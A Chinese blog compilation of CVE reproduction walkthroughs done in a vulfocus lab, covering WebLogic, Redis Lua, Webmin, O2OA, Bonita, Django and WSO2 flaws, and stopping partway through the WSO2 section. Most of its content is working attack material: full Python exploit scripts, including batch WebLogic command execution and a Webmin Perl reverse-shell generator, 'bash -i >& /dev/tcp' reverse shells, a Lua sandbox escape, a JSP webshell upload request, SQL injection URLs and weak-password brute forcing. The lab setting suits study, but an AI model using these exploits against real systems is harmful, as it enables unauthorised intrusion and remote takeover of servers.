

2024年2月13日，将CVE漏洞复现的相关文章整合到一起，方便查阅

<!-- more -->

# CVE-2020-14882 weblogic未授权远程命令执行漏洞

##  影响范围

Oracle WebLogic Server 版本10.3.6.0，12.1.3.0，12.2.1.3，12.2.1.4，14.1.1.0。

## 一、漏洞描述

​			Oracle WebLogic Server 远程代码执行漏洞 （CVE-2020-14882）POC 被公开，未经身份验证)的远程攻击者可通过构造特殊的 HTTP GET 请求，结合 CVE-2020-14883 漏洞进行利用，利用此漏洞可在未经身份验证的情况下直接接管 WebLogic Server Console ，并执行任意代码，利用门槛低，危害巨大

## 二、weblogic

​		WebLogic是用于开发、集成、部署和管理大型分布式Web应用、网络应用和数据库应用的Java应用服务器。将Java的动态功能和Java Enterprise标准的安全性引入大型网络应用的开发、集成、部署和管理之中。

## 三、影响范围

​	Oracle WebLogic Server，版本10.3.6.0，12.1.3.0，12.2.1.3，12.2.1.4，14.1.1.0。

## 四、漏洞复现

#### **1.开启vulfocus靶场环境**


直接访问地址会发现无法访问


需要在后面加上/console/login/LoginForm.jsp，发现以下登入页面


#### **2.进入后台**

尝试用burp爆破，花时收获甚微，这里有一个绕过验证漏洞，我们使用构造URL

```
http://10.0.0.128:52634/console/css/%252e%252e%252fconsole.portal
```

成功进入了后台，但是获得的权限很低


#### **3.漏洞利用**

来自https://github.com/GGyao/CVE-2020-14882_ALL/blob/master/README.md上的漏洞利用脚本以及方法


###### 一、命令回显

```
python3 poc.py -u http://ip:port -c “{指令}”
```

这里的指令使用whoami进行测试，成功回显


###### 二、批量命令回显

```
python3 poc.py -u http://ip:port -f target.txt -c "{cmd}"
```

target.txt 为 ip:port目标，一行一个，由于只开了一个靶机，这里不复现

###### 三、外置xml文件无回显命令执行

编辑好xml文件

```xml
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
 <value>/bin/bash</value>
        <value>-c</value>
        <value><![CDATA[bash -i >& /dev/tcp/10.0.0.127/4444  0>&1]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

修改cmd指令为反弹shell

```
<![CDATA[bash -i >& /dev/tcp/10.0.0.127/4444  0>&1]]>
```

开启python http服务，让其能访问kali上的xml文件：


开启nc监听：


尝试使用脚本中-x指令运行，结果有访问记录而无shell反弹，

尝试在浏览器使用get请求

payload:

```http
http://ip:port/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://kaliip/xxx.xml")
```

成功获取shell:


### poc.py

```python
#coding:utf-8
import requests
import sys
import argparse
import http.client

http.client.HTTPConnection._http_vsn = 10
http.client.HTTPConnection._http_vsn_str = 'HTTP/1.0'

requests.packages.urllib3.disable_warnings()


#功能1方法：回显命令执行。
def command(url_cmd,headers_cmd,url):
	try:
		res = requests.get(url_cmd, headers = headers_cmd,timeout = 15, verify = False)
		if "<html" not in res.text and "<TITLE" not in res.text :
			print ("[+] Command success result:")
			print (res.text)

		else:
			print ("[-] " + url + " not vulnerable or command error!")
	except Exception as e:
		#print (e)
		print ("[-] " + url + " not vulnerable or command error!")


#功能2方法：无回显，命令执行,适用于Weblogic 10.x、12.x。
def weblogic_12(url_cmd,post_12,headers_12):
	try:
		res = requests.post(url_cmd, data = post_12, headers = headers_12,timeout = 15, verify = False)
		#print ("[+] Attack complete!")
	except Exception as e:
		print ("[+] Attack complete!")

def main():
	banner = """  _______      ________    ___   ___ ___   ___        __ _  _   ___   ___ ___  
 / ____\ \    / /  ____|  |__ \ / _ \__ \ / _ \      /_ | || | / _ \ / _ \__ \ 
| |     \ \  / /| |__ ______ ) | | | | ) | | | |______| | || || (_) | (_) | ) |
| |      \ \/ / |  __|______/ /| | | |/ /| | | |______| |__   _> _ < > _ < / / 
| |____   \  /  | |____    / /_| |_| / /_| |_| |      | |  | || (_) | (_) / /_ 
 \_____|   \/   |______|  |____|\___/____|\___/       |_|  |_| \___/ \___/____|
                                                                               
                                                         Author:GGyao
                                                         Github:https://github.com/GGyao

"""

	print (banner)
	parser = argparse.ArgumentParser()
	parser.add_argument("-u", "--url", help="Target URL; Example:http://ip:port。")
	parser.add_argument("-f", "--file", help="Target File; Example:target.txt。")
	parser.add_argument("-c", "--cmd", help="Commands to be executed; ")
	parser.add_argument("-x", "--xml", help="Remote XML file; Example:http://vpsip/poc.xml; ")
	args = parser.parse_args()

	#功能1：命令回显。
	if args.url != None and args.cmd != None:
		url = args.url
		url_cmd = args.url + """/console/css/%25%32%65%25%32%65%25%32%66consolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession('weblogic.work.ExecuteThread currentThread = (weblogic.work.ExecuteThread)Thread.currentThread(); weblogic.work.WorkAdapter adapter = currentThread.getCurrentWork(); java.lang.reflect.Field field = adapter.getClass().getDeclaredField("connectionHandler");field.setAccessible(true);Object obj = field.get(adapter);weblogic.servlet.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod("getServletRequest").invoke(obj); String cmd = req.getHeader("cmd");String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd};if(cmd != null ){ String result = new java.util.Scanner(new java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter("%5C%5CA").next(); weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod("getResponse").invoke(req);res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();} currentThread.interrupt();')"""
		headers_cmd = {
		'User-Agent':'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:67.0) Gecko/20100101 Firefox/67.0',
		'cmd':args.cmd,
		'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
		'Content-Type':'application/x-www-form-urlencoded'
		}

		#post_cmd = """_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession('weblogic.work.WorkAdapter+adapter+%3d+((weblogic.work.ExecuteThread)Thread.currentThread()).getCurrentWork()%3b+java.lang.reflect.Field+field+%3d+adapter.getClass().getDeclaredField("connectionHandler")%3bfield.setAccessible(true)%3bObject+obj+%3d+field.get(adapter)%3bweblogic.servlet.internal.ServletRequestImpl+req+%3d+(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod("getServletRequest").invoke(obj)%3b+String+cmd+%3d+req.getHeader("cmd")%3bString[]+cmds+%3d+System.getProperty("os.name").toLowerCase().contains("window")+%3f+new+String[]{"cmd.exe",+"/c",+cmd}+%3a+new+String[]{"/bin/sh",+"-c",+cmd}%3bif(cmd+!%3d+null+){+String+result+%3d+new+java.util.Scanner(new+java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter("\\\A").next()%3b+weblogic.servlet.internal.ServletResponseImpl+res+%3d+(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod("getResponse").invoke(req)%3b+res.getServletOutputStream().writeStream(new+weblogic.xml.util.StringInputStream(result))%3bres.getServletOutputStream().flush()%3bres.getWriter().write("")%3b}')"""

	
		#command(url_cmd,post_cmd,headers_cmd,url)
		command(url_cmd,headers_cmd,url)

	#功能2：weblogic 12.x命令执行。
	if args.url != None and args.xml != None:
		url_cmd = args.url + '/console/images/%252e%252e/console.portal'
		headers_12 = {
		'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:67.0) Gecko/20100101 Firefox/67.0',
		'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
		'Content-Type':'application/x-www-form-urlencoded'
		}

		post_12 = """_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext(%22{}%22)""".format(args.xml)

		weblogic_12(url_cmd,post_12,headers_12)

	# 功能3：回显命令执行批量。
	if args.file != None and args.cmd != None:
		#print (1)
		for File  in open(args.file):
			File = File.strip()
			url_cmd = File + """/console/css/%25%32%65%25%32%65%25%32%66consolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession('weblogic.work.ExecuteThread currentThread = (weblogic.work.ExecuteThread)Thread.currentThread(); weblogic.work.WorkAdapter adapter = currentThread.getCurrentWork(); java.lang.reflect.Field field = adapter.getClass().getDeclaredField("connectionHandler");field.setAccessible(true);Object obj = field.get(adapter);weblogic.servlet.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod("getServletRequest").invoke(obj); String cmd = req.getHeader("cmd");String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd};if(cmd != null ){ String result = new java.util.Scanner(new java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter("%5C%5CA").next(); weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod("getResponse").invoke(req);res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();} currentThread.interrupt();')"""
			print ("[*] >>> Test:" + File)

			url = File
			headers_cmd = {
			'User-Agent':'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:67.0) Gecko/20100101 Firefox/67.0',
			'cmd':args.cmd,
			'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
			'Content-Type':'application/x-www-form-urlencoded'
			}


			#post_cmd = """_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession('weblogic.work.WorkAdapter+adapter+%3d+((weblogic.work.ExecuteThread)Thread.currentThread()).getCurrentWork()%3b+java.lang.reflect.Field+field+%3d+adapter.getClass().getDeclaredField("connectionHandler")%3bfield.setAccessible(true)%3bObject+obj+%3d+field.get(adapter)%3bweblogic.servlet.internal.ServletRequestImpl+req+%3d+(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod("getServletRequest").invoke(obj)%3b+String+cmd+%3d+req.getHeader("cmd")%3bString[]+cmds+%3d+System.getProperty("os.name").toLowerCase().contains("window")+%3f+new+String[]{"cmd.exe",+"/c",+cmd}+%3a+new+String[]{"/bin/sh",+"-c",+cmd}%3bif(cmd+!%3d+null+){+String+result+%3d+new+java.util.Scanner(new+java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter("\\\A").next()%3b+weblogic.servlet.internal.ServletResponseImpl+res+%3d+(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod("getResponse").invoke(req)%3b+res.getServletOutputStream().writeStream(new+weblogic.xml.util.StringInputStream(result))%3bres.getServletOutputStream().flush()%3bres.getWriter().write("")%3b}')"""
			command(url_cmd,headers_cmd,url)


if __name__=="__main__":
	main()
```

# CVE-2022-0543 Redis Lua

影响范围：Debian系得linux发行版本+Ubuntu

	2.2 <= redis < 5.0.13
	2.2 <= redis < 6.0.15
	2.2 <= redis < 6.2.5

## 一、描述

影响范围：Debian系得linux发行版本+Ubuntu

其并非Redis本身漏洞，形成原因在于系统补丁加载了一些redis源码注释了的代码

揭露时间：2022.3.8

## 二、原理

redis在用户连接后可以通过eval命令执行Lua脚本，但是脚本跑在沙箱中，正常情况下无法执行命令读取文件，所以这个漏洞的本质是沙箱绕过。

Ubuntu/Debian/CentOS等这些发行版本会在原始软件的基础上打一些补丁包，其中给Redis打了一个的补丁,增加了一个include, 下面是Debian通过shell使用make生成补丁包的源码：

```c
debian/lua_libs_debian.c:
    echo "// Automatically generated; do not edit." >$@
    echo "luaLoadLib(lua, LUA_LOADLIBNAME, luaopen_package);" >>$@
    set -e; for X in $(LUA_LIBS_DEBIAN_NAMES); do \
        echo "if (luaL_dostring(lua, \"$$X = require('$$X');\"))" >>$@; \
        echo "    serverLog(LL_NOTICE, \"Error loading $$X library\");" >>$@; \
    done
    echo 'luaL_dostring(lua, "module = nil; require = nil;");' >>$@

```

- `luaLoadLib(lua, LUA_LOADLIBNAME, luaopen_package)`就是漏洞的来源

这段代码原本被注释掉，而这个补丁却重新把他写了进去，导致在Lua沙箱中遗留了一个对象package，攻击者可以利用package对象提供的加载动态链接库liblua里的函数逃逸。

```c
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
local io = io_l();
local f = io.popen("id", "r");
local res = f:read("*a");
f:close();
return res
```

注：不同系统下liblua5.1.so.0路径不同

​		io.popen("", "r"); 的第一个引号内为执行命令

连接后可以使用以下命令逃逸

```c
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

## 三、复现


 在靶场中启用镜像

一般情况下，redis运行在6379（默认端口），而在此镜像中映射于36770端口可以使用nmap扫描端口发现相应服务

使用kali的redis-cli尝试连接redis，进入后使用eval使用相关脚本 ls  /tmp 找到flag


该漏洞成功复现

# CVE-2022-0824 webmin远程代码执行漏洞

###  影响范围：

Webmin < Webmin Webmin1.990 

1.990版本之前均受影响

## 一、webmin描述

Webmin 是一个基于 Web 的 Unix 系统管理界面。使用任何现代网络浏览器，您可以设置用户帐户、Apache、DNS、文件共享等等。 在 1.990 之前的 GitHub 存储库 webmin/webmin 中对远程代码执行的访问控制不当。 

管理员通过浏览器访问Webmin的各种管理功能并完成相应的管理动作。Webmin让您能够在远程使用支持HTTPS (SSL 上的 HTTP)协议的 Web 浏览器通过 Web界面管理您的主机。

## 二、漏洞描述

Webmin是Webmin社区的一套基于Web的用于类Unix操作系统中的系统管理工具。webmin1.990之前版本存在权限提升漏洞，该漏洞源于错误的程序对高级本地过程调用。攻击者可以利用该漏洞能够修改操作系统文件系统并以运行应用程序权限执行操作系统命令。

## 三、影响范围

Webmin < Webmin Webmin1.990 

1.990版本之前均受影响

## 四、漏洞复现

**1.靶场拉取镜像**


**2.访问给出的端口**


**3.密码爆破**

发现登入页面，使用burp工具尝试弱口令


抓登入页面的包，发送给intruder模块使用clusterbomb模式

发现账号密码为弱口令 root/password


成功登入后台


**4.浏览，可发现许多可以利用的地方**


可以发现command shell 执行任意命令


file manager 浏览所有文件


upload and download 上传下载任意文件

**5.poc 攻击**

poc地址：https://github.com/faisalfs10x/Webmin-CVE-2022-0824-revshell/blob/main/Webmin-revshell.py

具体内容：

```python
import requests
import urllib3
import argparse
import os
import time

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

TGREEN =  '\033[32m'
TRED =  '\033[31m' 
TCYAN =  '\033[36m' 
TSHELL =  '\033[32;1m' 
ENDC = '\033[m'

class Exploit(object):
    def __init__(self, target, username, password, py3http_server, pyhttp_port, upload_path, callback_ip, callback_port, fname):
        self.target = target
        self.username = username
        self.password = password
        self.py3http_server = py3http_server
        self.pyhttp_port = pyhttp_port
        self.upload_path = upload_path
        self.callback_ip = callback_ip
        self.callback_port = callback_port
        self.fname = fname

        #self.proxies = proxies
        self.s = requests.Session()


    def gen_payload(self):
        payload = ('''perl -e 'use Socket;$i="''' + self.callback_ip  + '''";$p=''' + self.callback_port + ''';socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};' ''')
        print(TCYAN + f"\n[+] Generating payload to {self.fname} in current directory", ENDC)
        f = open(f"{self.fname}", "w")
        f.write(payload)
        f.close()

    def login(self):
        login_url = self.target + "/session_login.cgi"
        cookies = { "redirect": "1", "testing": "1", "PHPSESSID": "" }

        data = { 'user' : self.username, 'pass' : self.password }
        try:
            r = self.s.post(login_url, data=data, cookies=cookies, verify=False, allow_redirects=True, timeout=10)
            success_message = 'System hostname'
            if success_message in r.text:
                print(TGREEN + "[+] Login Successful", ENDC)
            else:
                print(TRED +"[-] Login Failed", ENDC)
                exit()

        except requests.Timeout as e:
            print(TRED + f"[-] Target: {self.target} is not responding, Connection timed out", ENDC)
            exit()

    def pyhttp_server(self):
        print(f'[+] Attempt to host http.server on {self.pyhttp_port}\n')
        os.system(f'(setsid $(which python3) -m http.server {self.pyhttp_port} 0>&1 & ) ') # add 2>/dev/null for clean up
        print('[+] Sleep 3 second to ensure http server is up!')
        time.sleep(3) # Sleep for 5 seconds to ensure http server is up!

    def download_remote_url(self):
        download_url = self.target + "/extensions/file-manager/http_download.cgi?module=filemin"
        headers = { 
                    "Accept": "application/json, text/javascript, */*; q=0.01", 
                    "Accept-Encoding": "gzip, deflate", 
                    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", 
                    "X-Requested-With": "XMLHttpRequest", 
                    "Referer": self.target + "/filemin/?xnavigation=1" 
        }

        data = { 
                'link': "http://" + self.py3http_server + "/" + self.fname, 
                'username': '', 
                'password': '', 
                'path': self.upload_path 
        }

        r = self.s.post(download_url, data=data, headers=headers, verify=False, allow_redirects=True)
        print(f"\n[+] Fetching {self.fname} from http.server {self.py3http_server}")

    def modify_permission(self):
        modify_perm_url = self.target + "/extensions/file-manager/chmod.cgi?module=filemin&page=1&paginate=30"
        headers = { "Referer": self.target + "/filemin/?xnavigation=1" }
        data = { "name": self.fname, "perms": "0755", "applyto": "1", "path": self.upload_path }
       
        r = self.s.post(modify_perm_url, data=data, headers=headers, verify=False, allow_redirects=True)
        print(f"[+] Modifying permission of {self.fname} to 0755")

    def exec_revshell(self):
        url = self.target + '/' + self.fname
        try:
            r = self.s.get(url, verify=False, allow_redirects=True, timeout=3)
        except requests.Timeout as e: # check target whether make response in 3s, then it indicates shell has been spawned!
            print(TGREEN + f"\n[+] Success: shell spawned to {self.callback_ip} via port {self.callback_port} - XD", ENDC)
            print("[+] Shell location: " + url)
        else:
            print(TRED + f"\n[-] Please setup listener first and try again with: nc -lvp {self.callback_port}", ENDC)

    def do_cleanup(self):
        print(TCYAN + '\n[+] Cleaning up ')
        print(f'[+] Killing: http.server on port {self.pyhttp_port}')
        os.system(f'kill -9 $(lsof -t -i:{self.pyhttp_port})')
        exit()

    def run(self):
        self.gen_payload()
        self.login()
        self.pyhttp_server()
        self.download_remote_url()
        self.modify_permission()
        self.exec_revshell()
        self.do_cleanup()


if __name__ == "__main__":

    parser = argparse.ArgumentParser(description='Webmin CVE-2022-0824 Reverse Shell')
    parser.add_argument('-t', '--target', type=str, required=True, help=' Target full URL, https://www.webmin.local:10000')
    parser.add_argument('-c', '--credential', type=str, required=True, help=' Format, user:user123')
    parser.add_argument('-LS', '--py3http_server', type=str, required=True, help=' Http server for serving payload, ex 192.168.8.120:8080')
    parser.add_argument('-L', '--callback_ip', type=str, required=True, help=' Callback IP to receive revshell')
    parser.add_argument('-P', '--callback_port', type=str, required=True, help=' Callback port to receive revshell')
    parser.add_argument("-V",'--version', action='version', version='%(prog)s 1.0')
    args = parser.parse_args()

    target = args.target
    username = args.credential.split(':')[0]
    password = args.credential.split(':')[1]
    py3http_server = args.py3http_server
    pyhttp_port = py3http_server.split(':')[1]
    callback_ip = args.callback_ip
    callback_port = args.callback_port
    upload_path = "/usr/share/webmin"
    fname = "revshell.cgi"

    pwn = Exploit(target, username, password, py3http_server, pyhttp_port, upload_path, callback_ip, callback_port, fname)
    pwn.run()
```

**开启kali监听9999端口**

```
nc -lvp 9999
```


**使用poc**

```
python3 /path/poc.py -t http://目标 -c 用户名:密码 -LS KALIIP:9090 -L KALIIP -P 监听端口
```


**监听端口成功取得shell**:


可以查看相关内容：


**6.取得flag**

由于vulfocus的flag放置于tmp目录中，执行代码cd /tmp寻找flag


至此成功复现该漏洞

# CVE-2022-22916 O2OA RCE远程命令执行

##  影响范围

O2OA v6.4.7

Fofa: title == "O2OA" 

## 一、O2OA描述

O2OA是一个基于J2EE分布式架构，集成移动办公、智能办公，支持私有化部署，自适应负载能力的，能够很大程度上节约企业软件开发成本的基于AGPL协议开放源代码的企业信息化系统需求定制开发平台解决方案。

## 二、漏洞描述

通过 /x_program_center/jaxrs/invoke 发现 O2OA v6.4.7 包含一个远程代码执行 (RCE) 漏洞。

## 三、影响范围

O2OA v6.4.7

Fofa: title == "O2OA"

## 四、漏洞复现

**1.拉取CVE-2022-22916镜像**



**2.访问80端口映射的端口**


O2OA的默认用户名和密码为xadmin\o2


成功登入

**3.添加接口**

进入服务管理界面


我们在此使用burp抓包然后伪造并发送此poc：

```http
POST /x_program_center/jaxrs/invoke?v=6.3 HTTP/1.1
Host: [your target host]
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Authorization: [your authorization]
Connection: close
Content-Type: application/json; charset=UTF-8
Content-Length: 475

{"name":"abc","id":"abc","alias":"","description":"","isNewInvoke":true,"text":"\n\nvar s = [3];\ns[0] = \"/bin/bash\";\ns[1] = \"-c\";\ns[2] = \"[command]\";\nvar p = java.lang.Runtime.getRuntime().exec(s);\nvar sc = new java.util.Scanner(p.getInputStream(),\"GBK\").useDelimiter(\"\\\\A\");\nvar result = sc.hasNext() ? sc.next() : \"\";\nsc.close();","enableToken":false,"enable":true,"remoteAddrRegex":"","lastStartTime":"","lastEndTime":"","validated":true}
```

[command]中填写反弹shell命令

```
bash -i >& /dev/tcp/10.0.0.127/6666 0>&1\
```

点击接口配置后抓到的包：


获取authorization的值


成功发送poc

刷新页面发现多了此接口：


**4.反弹shell**

开启kali监听


调用命令的poc:

```http
POST /x_program_center/jaxrs/invoke/abc/execute?v=6.3 HTTP/1.1
Host: [your target host]
Content-Length: 0
Accept: text/html,application/json,*/*
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
Authorization: [your authorization]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Content-Type: application/json; charset=UTF-8
Origin: http://[your target host]
Referer: http://[your target host]/x_desktop/index.html
Accept-Encoding: gzip, deflate
Cookie: 
Connection: close
```

此处由于cookie变更比较快直接在页面新建并运行：

```
var s = [3];
s[0] = "/bin/bash";
s[1] = "-c";
s[2] = "bash -i >& /dev/tcp/{kaliip}/{kaliport} 0>&1";
var p = java.lang.Runtime.getRuntime().exec(s);
var sc = new java.util.Scanner(p.getInputStream(),"GBK").useDelimiter("\\A");
var result = sc.hasNext() ? sc.next() : "";
sc.close();
```


反弹shell到攻击机上

查看id:


**5.取得flag**


本次漏洞复现到此结束

# CVE-2022-25237 Bonitasoft Platform RCE漏洞复现

##  影响范围：

Bonita Platform社区版：2022.1-u0(7.14.0)以下

Bonita Platform订阅版：2022.1-u0(7.14.0)以下						2021.2-u4(7.13.4)以下

​											2021.1-0307(7.12.11)以下				 7.11.7以下

## 一、Bonita介绍

Bonitasoft 是一个业务自动化平台，可以更轻松地在业务流程中构建、部署和管理自动化应用程序。

Bonita 是一个用于业务流程自动化和优化的开源和可扩展平台。

## 二、漏洞介绍

Bonita Web 2021.2版本受到认证绕过影响，因为其API认证过滤器的过滤模式过于宽泛。

通过添加恶意构造的字符串到API URL，普通用户可以访问需特权的API端点。这可能导致特权API操作将恶意代码

添加至服务器，从而造成RCE攻击。

## 三、影响范围

Bonita Platform社区版：2022.1-u0(7.14.0)以下

Bonita Platform订阅版：2022.1-u0(7.14.0)以下						2021.2-u4(7.13.4)以下

​											2021.1-0307(7.12.11)以下				 7.11.7以下

## 四、环境搭建

本地拉取镜像，并在vulfocus靶场导入

```
docker pull bonita:7.13.0
```


### 五、漏洞复现

**访问给出的地址**


可以发现一个登入页面，使用burp工具检测是否存在弱口令


使用cluster bomb模式，清除所有payload，将用户名和密码的位置改为payload


成功发现用户名和密码install / install

**登入界面**


通过浏览可以发现此处的添加用户


创建弱口令admin\admin


如图成功建立admin用户名

**使用脚本**

```
https://github.com/RhinoSecurityLabs/CVEs/tree/master/CVE-2022-25237
```

下载py文件和zip包，放在同一目录下

 https://zhifengmuxue.top/2023/2/13/CVE-2022-25237

在kali中中调用脚本

```
python3 CVE-2022-25237.py admin admin http://ip:port/bonita '指令'
```


至此成功寻到flag


可以执行查看操作系统等操作

# CVE-2022-28346 Django SQL注入

##  影响范围：

- 4.0 <= Django < 4.0.4
- 3.2 <= Django < 3.2.13
- 2.2 <= Django < 2.2.28

## 一、Django简介

Python下有许多款不同的 Web 框架。Django是重量级选手中最有代表性的一位。许多成功的网站和APP都基于Django，Django 是一个开放源代码的 Web 应用框架，由 Python 写成。


## 二、影响范围

- 4.0 <= Django < 4.0.4
- 3.2 <= Django < 3.2.13
- 2.2 <= Django < 2.2.28


## 三、漏洞简介

 在 2.2.28 之前的 Django 2.2、3.2.13 之前的 3.2 和 4.0.4 之前的 4.0 中发现了一个问题。QuerySet.annotate()、aggregate() 和 extra() 方法会通过精心制作的字典（带有字典扩展）作为传递的 **kwargs 在列别名中进行 SQL 注入


##  四、漏洞复现：

**1.打开靶场环境**

​		在vulfocus靶场中拉取CVE-2022-28346漏洞镜像，将其打开


**2.访问给出的地址**

http://10.0.0.128:22774


通过查看404页面发现目录 demo/


进入demo查看，发现报错：


报错信息：the annotation 'name' conficts with a field on the model 

使用报错信息 demo?field=demo.name 构造POC 

```http
POC:  http://10.0.0.128:24115/demo/?field=demo.name" FROM "demo_user" union SELECT "1",sqlite_version(),"3" --
```


**3.获取flag**

在此注入发现版本号3.34.1，重新改造POC 

```http
POC:  http://10.0.0.128:24115/demo/?field=demo.name" FROM "demo_user" union SELECT "1",phpinfo(),"3" --
```

通过ctrl+F 搜索 flag，取得最终的flag


```
flag-{bmh1059bd0b-be31-45cc-bb24-276b1735076f}
```

# CVE-2022-29464 WSO2文件上传

## 影响范围

WSO2 API Manager 																						2.2.0 及更高版本到 4.0.0
WSO2 Identity Server 																					 5.2.0 及以上至 5.11.0
WSO2 Identity Server Analytics（身份服务器分析） 								 5.4.0、5.4.1、5.5.0 和 5.6.0
WSO2  Identity Server as Key Manager（身份服务器作为密钥管理器） 5.3.0 及更高版本至 5.10.0
WSO2 Enterprise Integrator 																		 6.2.0 及更高版本至 6.6.0


## 一、漏洞描述

WSO2文件上传漏洞是Orange Tsai发现的WSO2上的严重漏洞。该漏洞是一种未经身份验证的无限制任意文件上传，允许未经身份验证的攻击者通过上传恶意JSP文件在WSO2服务器上获得RCE。

## 二、影响范围

WSO2 API Manager 																						2.2.0 及更高版本到 4.0.0
WSO2 Identity Server 																					 5.2.0 及以上至 5.11.0
WSO2 Identity Server Analytics（身份服务器分析） 								 5.4.0、5.4.1、5.5.0 和 5.6.0
WSO2  Identity Server as Key Manager（身份服务器作为密钥管理器） 5.3.0 及更高版本至 5.10.0
WSO2 Enterprise Integrator 																		 6.2.0 及更高版本至 6.6.0

**poc:**

```http
POST /fileupload/toolsAny HTTP/1.1
Host: xxxx:xxxx
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 889
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0

--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"; filename="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"

<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--
```

入口：https://ip:port/authenticationendpoint/1.jsp

## 三、漏洞复现

**1.开启靶场环境**

此处用的是vulfocus靶场相关镜像


**2.访问WSO2**

访问地址为https://ip:port/carbon/admin/login.jsp

此处我的访问为 https://10.0.0.128:18966/carbon/admin/login.jsp


**3.上传文件**

通过burp工具进行抓包，然后在repeater模块构造上传请求


```http
POST /fileupload/toolsAny HTTP/1.1
Host: xxxx:xxxx
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 889
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0

--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"; filename="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"

<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
